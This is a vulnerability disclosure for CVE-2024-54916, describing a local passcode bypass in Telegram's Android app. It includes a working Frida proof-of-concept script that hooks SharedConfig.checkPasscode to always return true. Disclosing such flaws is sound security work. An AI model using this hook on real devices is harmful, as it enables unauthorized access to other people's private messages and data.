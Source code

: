 # CVE-2024-54916
An issue in the SharedConfig class of Telegram android apk v.11.7.0 allows a physically proximate attacker to escalate privileges via manipulating the return value of the checkPasscode method.
# Vulnerability Type
Incorrect Access Control
# Vendor of Product
Telegram
# Affected Product Code Base
Telegram android apk v.11.7.0
# Affected Component
org.telegram.messenger.SharedConfig
# Exploitation
  
#### Identify the Target Class and Method:
- The SharedConfig class in the application manages the logic for passcode verification.
- The checkPasscode method within this class is responsible for determining the validity of the entered passcode.

#### Hook the method using frida
-  A Frida script is used to hook into the checkPasscode method in the SharedConfig class. The method's implementation is altered to always return true, bypassing the actual passcode validation.

#### Execution
- The Frida script is executed while the app is running(Dynamically). Any passcode input by the user will be accepted as valid, allowing unauthorized access.

# POC

Java.perform(function() {
 // Locate the SharedConfig class in the target application
 var PassCodeActivity = Java.use('org.telegram.messenger.SharedConfig');

 // Hook the checkPasscode method to modify its behavior
 PassCodeActivity.checkPasscode.implementation = function(passcode) {

  // Bypass the actual passcode check by always returning true
  return true;

 };

 });
 
 ### Video POC Link:- 
 https://drive.google.com/file/d/1-lW1IQiCyj-8UXZOTedYPGPhQwfMLX4M/view?usp=sharing
 
 # Impact:-
 This vulnerability is a client-side security bypass vulnerability. It affects users of the application who rely on the passcode feature to protect sensitive data or restrict access to certain app functionalities. By exploiting this vulnerability, an attacker can bypass the passcode check and gain unauthorized access to areas of the app that should be protected, potentially exposing user data or allowing unauthorized actions within the app.

